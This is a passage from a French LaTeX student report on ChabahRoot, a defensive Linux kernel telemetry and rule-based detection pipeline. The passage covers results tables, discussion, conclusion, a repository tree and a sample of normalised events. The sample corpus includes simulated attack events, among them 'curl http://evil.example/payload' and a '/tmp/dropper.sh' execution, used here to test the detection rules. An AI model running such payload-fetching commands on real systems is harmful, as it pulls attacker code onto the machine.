Passage dans le moteur de règles & 5 événements / 4 alertes & réussi & alertes sur exécution temporaire, élévation \texttt{setuid}, modification de capacité et motif de commande suspect \\
Orchestration par \texttt{run\_detection.sh} & 5 événements / 4 alertes & réussi & exécution complète sans recours à des chemins historiques supprimés \\
Tests d’intégration & 1 campagne & réussi & validation syntaxique \shellterm et traversée minimale du corpus \\
\bottomrule
\end{tabular}
\caption{Résultats observés sur les essais hors ligne}
\end{table}

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{3.8cm} >{\raggedright\arraybackslash}p{3.2cm} >{\raggedright\arraybackslash}p{5.3cm}}
\toprule
Catégorie d’alerte & Identifiant de règle & Exemple de sortie observée \\
\midrule
Exécution dans un chemin non sûr & \texttt{rule\_exec\_001} & \texttt{Alerte [rule\_exec\_001] ... HIGH} \\
Transition de privilège & \texttt{rule\_priv\_001} & \texttt{Alerte [rule\_priv\_001] ... CRITICAL} \\
Modification de capacité & \texttt{rule\_caps\_001} & \texttt{Alerte [rule\_caps\_001] ... HIGH} \\
Motif de commande suspect & \texttt{rule\_susp\_001} & \texttt{Alerte [rule\_susp\_001] ... HIGH} \\
\bottomrule
\end{tabular}
\caption{Types d’alertes réellement déclenchées sur le corpus d’exemple}
\end{table}

\section{Tests système avec \tracefs}
Deux situations doivent être distinguées. La première, réellement observée dans la session locale, concerne la vérification de \texttt{veille\_kernel/check.sh} sans privilège de superutilisateur. Le script s’interrompt avec un code de sortie non nul et signale explicitement l’exigence de droits élevés. Cette observation est utile, car elle confirme que le projet ne simule pas un état de capture actif lorsque le contexte ne le permet pas.

La seconde situation concerne les métriques attendues dans une session où \tracefs serait activable. Comme cette campagne n’a pas été réalisable dans l’environnement courant, les chiffres associés ci-dessous sont indiqués comme \texttt{[données d'exemple représentatives]}. Ils servent à illustrer la forme attendue des résultats, sans être présentés comme des mesures effectivement relevées.

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{4cm} >{\raggedright\arraybackslash}p{2.5cm} >{\raggedright\arraybackslash}p{5.7cm}}
\toprule
Scénario système & Statut & Observation \\
\midrule
Vérification M1 sans privilège & observé & arrêt immédiat avec message exigeant des privilèges de superutilisateur \\
Capture de 60 secondes avec \tracefs & \texttt{[données d'exemple représentatives]} & 120 événements bruts collectés, puis 118 événements normalisés exploitables \\
Chaîne complète avec activation réelle & \texttt{[données d'exemple représentatives]} & 9 alertes : 4 exécutions temporaires, 3 transitions \texttt{setuid}, 2 motifs suspects \\
\bottomrule
\end{tabular}
\caption{Distinction entre observation système réelle et données représentatives avec \tracefs}
\end{table}

\section{Remarques de lecture des résultats}
Les essais hors ligne montrent que la chaîne logique du système est fonctionnelle indépendamment de l’activation noyau. Cette propriété est importante pour l’évolution du projet, car elle permet de corriger la normalisation ou les règles sans dépendre à chaque itération d’un contexte privilégié. Les essais système, même partiels dans la session observée, montrent pour leur part que la couche \texttt{veille\_kernel} respecte une exigence de sûreté élémentaire : ne pas laisser croire à une capture réelle lorsque l’environnement n’accorde pas les droits nécessaires.

% ---------- Chapitre 6 : Discussion ----------
\chapter{Discussion}
L’intérêt principal de ChabahRoot tient à la cohérence retrouvée entre l’architecture, l’implémentation et l’usage. Une chaîne de télémétrie noyau de petite taille ne gagne pas nécessairement en qualité lorsqu’elle accumule plusieurs ambitions techniques concurrentes. Elle gagne davantage lorsque chaque module peut être lu, lancé et justifié sans contradiction avec le reste du dépôt. Dans cette perspective, l’abandon de la branche \ebpf n’est pas une perte fonctionnelle abstraite ; c’est une réduction de complexité qui améliore la lisibilité et la stabilité.

Le choix de \tracefs montre aussi une adéquation raisonnable avec un mini-projet de niveau Licence ou Master 1. L’environnement requis reste accessible, l’architecture reste démontrable et la chaîne de traitement peut être vérifiée hors ligne. Cette dernière propriété est particulièrement utile en contexte pédagogique, où la reproductibilité des manipulations vaut presque autant que la sophistication théorique du mécanisme d’observation.

Une limite subsiste néanmoins. La qualité du module \texttt{defensive\_monitor.sh} dépend fortement de la forme de la sortie \texttt{ps} et de la politique de filtrage choisie. Les essais réels ont montré qu’une simple hypothèse trop fragile sur le découpage des colonnes pouvait dégrader le comportement attendu. Cette remarque rappelle qu’en environnement \shellterm, la robustesse repose autant sur le choix des interfaces de données que sur la logique métier elle-même.

% ---------- Chapitre 7 : Conclusion ----------
\chapter{Conclusion}
ChabahRoot fournit une base cohérente pour la télémétrie noyau Linux à partir de \tracefs. La chaîne finale articule clairement l’acquisition des événements, leur normalisation au format \ndjson, leur évaluation par des règles déclaratives et leur orchestration dans un parcours d’usage unique. Les résultats hors ligne observés localement confirment la validité de cette chaîne sur un corpus d’exemple réel, avec cinq événements traités et quatre alertes déclenchées. La couche d’acquisition, quant à elle, signale proprement l’absence de privilèges nécessaires dans la session de test courante.

Le résultat essentiel n’est pas seulement fonctionnel. Il est aussi méthodologique. L’architecture retenue montre qu’un projet de cybersécurité système gagne en valeur lorsqu’il choisit une frontière technique réaliste, explicite ses formats de données et protège la séparation entre messages humains et flux de traitement. Dans un cadre académique, cette lisibilité constitue une qualité aussi importante que la couverture fonctionnelle.

% ---------- Chapitre 8 : Perspectives ----------
\chapter{Perspectives}
Une première perspective concerne l’extension de \texttt{salle\_des\_rapports}, actuellement réduite à un point d’ancrage vide. Cette partie pourrait accueillir une production synthétique d’incidents, des exports exploitables par une plateforme \textit{SIEM} ou des tableaux de bord légers. Une deuxième perspective concerne l’enrichissement des règles par corrélation temporelle, en combinant plusieurs événements successifs au lieu d’évaluer uniquement des occurrences isolées.

Une troisième perspective réside dans l’extension prudente de la couverture \tracefs. L’ajout de nouveaux tracepoints pourrait enrichir la valeur de détection, à condition de rester compatible avec la philosophie de lisibilité du projet. Enfin, une automatisation plus complète des campagnes système avec privilèges permettrait de remplacer les \texttt{[données d'exemple représentatives]} par des mesures entièrement observées dans un environnement contrôlé.

% ---------- Bibliographie ----------
\printbibliography[heading=bibintoc,title={Bibliographie}]

% ---------- Annexes ----------
\appendix

\chapter{Arborescence complète du dépôt}
\begin{verbatim}
/home/shinra/scripts/se_project/chabahroot
├── README.md
├── chaines_d_ecoute
│   └── ringbuf_reader.sh
├── chambre_d_analyse
│   ├── integration_tests.sh
│   ├── orchestrator.sh
│   └── run_detection.sh
├── salle_des_rapports
│   └── .gitkeep
├── socle_commun
│   ├── rules.conf
│   └── utilitaires.sh
├── veille_kernel
│   ├── check.sh
│   ├── cleanup.sh
│   ├── init.sh
│   ├── integration.sh
│   ├── lib
│   │   └── lib_utils.sh
│   ├── orchestrator.sh
│   └── tracer.sh
└── vigie_comportementale
    ├── defensive_monitor.sh
    ├── detection_rules.json
    ├── offensive_audit.sh
    └── rules_engine.sh
\end{verbatim}

\chapter{Exemple de sortie brute du normaliseur}
\begin{verbatim}
{"timestamp":1710000001,"timestamp_ns":1710000001000000000,"event_type":"exec","process":{"pid":2101,"ppid":1024,"comm":"bash","cmdline":"/tmp/dropper.sh","parent_comm":"unknown","parent_cmdline":""},"credentials":{"uid":1000,"gid":1000},"data":{"argv":"/tmp/dropper.sh"},"normalized_at":1778674411,"source":"chaines_d_ecoute"}
{"timestamp":1710000002,"timestamp_ns":1710000002000000000,"event_type":"setuid","process":{"pid":2102,"ppid":2101,"comm":"sudo","cmdline":"sudo /bin/bash","parent_comm":"unknown","parent_cmdline":""},"credentials":{"uid":1000,"gid":1000},"data":{"argv":"setuid(0)"},"normalized_at":1778674411,"source":"chaines_d_ecoute"}
{"timestamp":1710000003,"timestamp_ns":1710000003000000000,"event_type":"prctl_caps","process":{"pid":2103,"ppid":2101,"comm":"python","cmdline":"python exploit.py","parent_comm":"unknown","parent_cmdline":""},"credentials":{"uid":1001,"gid":1001},"data":{"argv":"prctl(option=15)"},"normalized_at":1778674411,"source":"chaines_d_ecoute"}
{"timestamp":1710000004,"timestamp_ns":1710000004000000000,"event_type":"exec","process":{"pid":2104,"ppid":2101,"comm":"curl","cmdline":"curl http://evil.example/payload","parent_comm":"unknown","parent_cmdline":""},"credentials":{"uid":1000,"gid":1000},"data":{"argv":"curl http://evil.example/payload"},"normalized_at":1778674411,"source":"chaines_d_ecoute"}
{"timestamp":1710000005,"timestamp_ns":1710000005000000000,"event_type":"exec","process":{"pid":2105,"ppid":2101,"comm":"bash","cmdline":"bash --token abc123","parent_comm":"unknown","parent_cmdline":""},"credentials":{"uid":1000,"gid":1000},"data":{"argv":"[REDACTED]"},"normalized_at":1778674411,"source":"chaines_d_ecoute"}
\end{verbatim}

\end{document}
